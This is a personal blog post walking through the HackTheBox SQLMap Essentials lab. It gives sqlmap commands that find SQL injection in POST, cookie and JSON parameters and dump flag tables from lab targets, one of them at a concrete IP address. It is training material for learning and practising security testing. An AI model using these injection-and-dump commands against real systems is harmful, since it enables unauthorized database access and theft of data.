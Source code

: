 ```yaml
---
title: "SQLmap Essentials - HackTheBox"
date: 2025-07-01 00:00:00 +0300
categories: [SQLMap Essentials]
tags: [SQLMap Essentials]
---
```


# SQLMap Essentials 

Hello there, welcome to my first blog of the year. 

This lab series is part of the [Bug Bounty Hunter Path](https://academy.hackthebox.com/path/preview/bug-bounty-hunter) of HackTheBox. This module aims to teach you the basics of using SQLMap to discover various types of SQL Injection vulnerabilities, all the way to the advanced enumeration of databases to retrieve all data of interest.

I enjoyed this lab very much I had to write this blog as I run a SQLmap payload on the final skill assessment question which is currently taking too long 🥱.

I hope you enjoy perusing this walkthrough as much as I did writing it.

Also find a cheatsheet of the lab the end of the blog

# Running SQLmap on a HTTP Request

We are provided with a target that leads to a page that displays links to the different Cases respective of the questions.
 
 ![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials1.png)



Questions:


`1. What's the contents of table flag2? (Case #2)`

There is an 'id' parameter that is used to retrive rows of a table from a database. 

This indicates it is a POST request. This might help us in writing the command.

`sqlmap  'http://SERVERIP:PORT/case2.php' --data='id=*1' --batch --dump -T flag2` 

From the command:


    --data - speecifies that the HTTP data provided should be sent in a POST request.

    id=*1 - This is the parameter of interest. The asterisk is a custom injection marker. 

    --batch - allows the running of the command without any user input.

    --dump - displays data from a specified database table.

    -T - specifies database table.


`2. What's the contents of table flag3? (Case #3)`

The cookie value id is vulnerable.

`sqlmap 'http://SERVERIP:PORT/case3.php'  --cookie='id=1*' --batch --dump  -T flag3`

From the command:

    --cookie - specifies the HTTP cookies that should be sent with the POST requests.


`3. What's the contents of table flag4? (Case #4) `

There is a vulnerability in a JSON value for data: id. 

While JSON data is parsed differently in a HTTP request we may use a tool like BURP or Curl to capture the raw HTTP request and output it to a file. We then use the file in the command.

We will use Burpsuite for this.

![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials2.png)


`sqlmap -r req.txt  --batch --dump  -T flag4 `

While it is applicable in this lab, we may also use the following command.

`sqlmap -u 'http://94.237.50.242:49319/case4.php'  --data={'"id":1'} --batch --dump  -T flag4`




